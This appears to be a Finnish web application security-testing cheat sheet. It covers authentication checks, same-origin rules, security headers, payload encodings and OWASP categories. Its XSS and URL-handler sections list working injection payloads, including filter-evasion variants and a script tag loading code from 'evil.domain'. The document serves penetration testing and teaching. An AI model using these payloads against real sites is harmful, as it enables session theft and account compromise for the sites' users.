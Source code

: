 # Verkkosovelluksen kybertestauksen referenssi

## Autentikoinnin tarkastuslista

* Onko tunniste satunnainen, siten että sitä ei voi arvata tai päätellä?
* Voiko tunnistetta ohjata hyökkääjän haltuun jotenkin? (HttpOnly ja secure -flagit?)
* Voiko käyttäjän puolesta tehdä pyyntöjä sovellukseen? (CSRF-esto käytössä?)
* Voiko sovelluksen tarkastusta käyttäjätunnuksesta/salasanasta manipuloida?

## Same-origin policy

|URL|Lopputulos|
|--|:---:|
|http://www.example.com/dir/page2.html|Ok|
|http://www.example.com/dir2/other.html|Ok|
|http://username:password@www.example.com/dir2/other.html|Ok|
|http://www.example.com:81/dir/other.html|Epäonnistuu|
|https://www.example.com/dir/other.html|Epäonnistuu|
|http://en.example.com/dir/other.html|Epäonnistuu|
|http://example.com/dir/other.html|Epäonnistuu|
|http://v2.www.example.com/dir/other.html|Epäonnistuu|
|http://www.example.com:80/dir/other.html|Epäselvä|

## HTTP headerit

|Header|Mikä se on?|
|------|-----------|
X-Content-Type-Options: nosniff|Estää MIME-typen päättelyn.|
|Content-Type |MIME-type.|
|Content-Disposition|Liitetiedostojen erottamiseen sisällöstä.|
|X-Frame-Options:SAMEORIGIN| Estää avaamisen frameen mielivaltaisesta domainista.|
|Cookie + secure| Salaa cookien. Toimii vain jos on HTTPS.|
|cookie + HTTPOnly| Cookien käsittely javascriptilla estetty.|
|Same-Site|CSRF-esto|
|Strict-Transport-Security| Käytä aina HTTPS:ää. Ignoroidaan HTTP:tä käytettäessä.|
|Cache-Control|Välimuistin käsittely.|
|X-XSS-Protection|Sisällössä potentiaalisesti XSS sisältöä.|
|X-Forwarded-For|headeri palvelimelle reverse proxy-palvelimelta. Vastaava x-forwarded-host|
|Content-Security-Policy|Rajoituksia selaimelle sisällön suhteen.| 
|Access-Control-Allow-Origin|Ohita same-origin policy (CORS)| 
|Upgrade-Insecure-Requests|HTTPS-protokolla HTTP:n sijaan automaattisesti.|

## Enkoodaukset

* normaali: ```alert(1)```
* Javascript, Octal: ```\141\154\145\162\164\50\61\51```
* HTML, hex: ```&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;```
* HTML, decimal: ```&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;```
* Javascript,HEX: ```\x61\x6c\x65\x72\x74\x28\x31\x29```
* Javascript, unicode ```\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029```
* Javascript, Unicode ```\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}\u{0028}\u{0031}\u{0029}```
* URL: ```%61%6c%65%72%74%28%31%29```
* Base64


## Javascriptin ajaminen (XSS)

* ```<script>alert(1)</script>```
* ```<script src="http://evil.domain/hak.js"/>```
* Viallinen HTML, esim. ```<scr<script>ipt>alert('XSS')</scr<script>ipt>```
* ```<img src="lol.jpg" onError=alert(1)>```
* onLoad, onChange yms. vastaavasti
* ```<img src=x onerror=alert('XSS')//``` - kommentin hyväksikäyttö
* ```<img src=x:alert(alt) onerror=eval(src) alt=xss>```
* ```<svg/onload=alert(1)>``` SVG-kuvaformaatin hyväksikäyttö + event handler.
* ```<svg id=alert(1) onload=eval(id)>```
* ```<input autofocus onfocus=alert(1)>```
* ```<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">```
* XML-dokumentin sisällä (CDATA ja muita keinoja)
* SVG-kuvan käyttö alustana (CDATA + script)
* JSON-rakenteen sisällä 

## URL handlerit

* data:text/html - ```data:text/html,<script>alert(1)</script>```
* ```javascript:alert(1)```
* ```http://;URL=javascript:alert(1)```
* Base64: ```data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+```
* ```mailto:```  -sähköposti
* ```callto:```  -puhelinsoitto
* ```tel:``` - puhelinsoitto
* ```file://``` - tiedostojärjestelmä

## Parametrien käsittelyn rikkominen

* Parametrin jättäminen pois
* Arvon korvaaminen (jonkun muun id, -1,  tms..)
* Toistaminen useita kertoja eri arvoilla (HTTP Parameter Pollution)
* Erikoisarvot: ```null```, ```nil```, ```NaN```, lukualueiden ääriarvot
* Erikoismerkit: ```'```, ```%``` ja muut 
* Arvojen lisääminen pyynnön mukana. 
* ylipitkän arvon käyttö
* välilyöntien käyttö alussa tai lopussa


## Piilotetut elementit käyttöliittymässä

* ```form``` elementin hidden-kentät.
* CSS-tyylien kautta piilotetut
* Position avulla piilotus

## OWASP Top 10 (2013)

* A1 Injection
* A2 Broken Authentication
* A3 Cross-Site Scripting (XSS)
* A4 Insecure Direct Object references
* A5 Security Misconfiguration
* A6 Sensitive Data Exposure
* A7 Missing Function Level Access Control 
* A8 Cross-Site Request Forgery (CSRF)
* A9 Using Components with Known Vulnerabilities
* A10 Unvalidated Redirects and Forwards


# Lisenssi

![lisenssi](88x31.png)

Creative Commons, Attribution-NonCommercial CC BY-NC
Kts. [LISENSSI](LICENSE).

